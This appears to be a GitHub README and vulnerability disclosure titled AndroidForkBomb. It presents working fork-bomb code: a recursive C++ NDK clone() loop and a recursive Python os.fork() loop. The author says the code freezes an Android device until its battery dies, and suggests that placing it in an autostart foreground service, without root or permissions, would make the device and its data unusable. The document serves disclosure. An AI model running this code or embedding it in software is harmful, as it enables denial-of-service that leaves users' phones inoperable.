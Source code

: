 # AndroidForkBomb

I found when I do such code exactly : (the code is in cpp using ndk - JNI ) :
```
  int cloneIt(void * args){
      for (int i = 0 ; i < 1000 ; i ++ ){
          pid_t  pid =  clone(cloneIt,
                              malloc(1),
                              CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID | SIGCHLD ,
                              NULL);
          __android_log_write(ANDROID_LOG_ERROR, "CLONE_ERRNO",
                              ("errno :  " + std::to_string(errno) + "  pid:" + std::to_string(pid )).c_str());
      }

      return 0 ;
  }
```
that function overflows the scheduler and makes the device unusable- it can't be turned off or do anything - use the touch or anything else until the battery dies. I found the bug when I played with python on termux and wrote that code :
```
import os
def cool():
    print(os.fork())
    cool()
cool()
```
so I reversed the sys calls using adb shell in the emulator - I opened termux and used strace and got that (attached file)

I am also attaching poc videos. I think this poc is critical because if someone puts such a function on autostart foreground service - the device and all of its data are worthless - it will just show the login wallpaper without turning off ( and without an option to do anything including turning off the device ). Thanks for the great os - Idan.
Please briefly explain who can exploit the vulnerability, and what they gain when doing so
every developer that have RCE or installed product with that code on the device .

no root privileges
do not require any permissions from the user - can be a method to make all the data unaccessable if the code will be in auto start service without any permissions .![image](https://github.com/user-attachments/assets/bc395092-1883-4d26-b7e3-3df93b7f59bc)


